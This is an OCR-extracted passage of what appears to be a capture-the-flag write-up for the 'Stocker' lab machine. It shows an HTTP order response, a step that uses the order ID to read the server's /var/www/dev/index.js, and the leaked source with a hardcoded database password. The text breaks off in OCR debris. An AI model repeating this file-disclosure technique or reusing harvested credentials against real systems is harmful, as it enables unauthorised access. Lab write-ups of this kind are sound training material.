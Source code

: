 -->Response:
```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 11 Feb 2023 18:33:57 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 53
Connection: close
X-Powered-By: Express
ETag: W/"35-JTV4HhookeyZqkowI3mZAHKI4ZU"

{"success":true,"orderId":"63e7df955c5803fd80542cc7"}
```

6) I use the Id "63e7df955c5803fd80542cc7", thereby I surface in this directory  "http://dev.stocker.htb/api/po/63e7df955c5803fd80542cc7" and I find file /var/www/dev/index.js

-->Output:
```js
const express = require("express");
const mongoose = require("mongoose");
const session = require("express-session");
const MongoStore = require("connect-mongo");
const path = require("path");
const fs = require("fs");
const { generatePDF, formatHTML } = require("./pdf.js");
const { randomBytes, createHash } = require("crypto");
const app = express();
const port = 3000;
// TODO: Configure loading from dotenv for production
const dbURI =
"mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?
authSource=admin&w=1";
app.use(express.json());
app.use(express.urlencoded({ extended: false }));
app.use(
 session({
 secret: randomBytes(32).toString("hex"),
 resave: false,
 saveUninitialized: true,
 store: MongoStore.create({
 mongoUrl: dbURI,
 }),
 })
);
app.use("/static", express.static(__dirname + "/assets"));
app.get("/", (req, res) => {
 return res.redirect("/login");
});
app.get("/api/products", async (req, res) => {
 if (!req.session.user) return res.json([]);
 const products = await mongoose.model("Product").find();
j ( d 
```
